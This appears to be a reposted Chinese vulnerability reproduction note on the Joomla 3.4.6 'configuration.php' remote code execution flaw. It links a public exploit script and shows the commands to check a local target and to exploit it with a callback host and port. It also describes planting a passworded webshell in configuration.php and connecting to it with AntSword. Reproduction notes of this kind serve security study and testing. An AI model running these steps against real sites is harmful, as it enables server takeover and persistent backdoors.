




# Joomla 3.4.6 - 'configuration.php' Remote Code Execution

> 原文：[https://www.zhihuifly.com/t/topic/2998](https://www.zhihuifly.com/t/topic/2998)

# Joomla 3.4.6 configuration.php 远程代码执行

## 一、漏洞简介

Joomla 3.4.6 - 'configuration.php' Remote Code Execution

## 二、影响范围

Joomla 3.0.0 至 3.4.6

## 三、复现过程

https://github.com/ianxtianxt/Joomla-3.4.6---configuration.php-Remote-Code-Execution

### 脚本验证

验证：

```
python3 test.py -t http://127.0.0.1:8080/ 
```



显示“Vulnerable”证明存在漏洞

利用：

```
python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121 
```



执行成功

并在“configuration.php”写入**随机密码**的一句话木马


上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

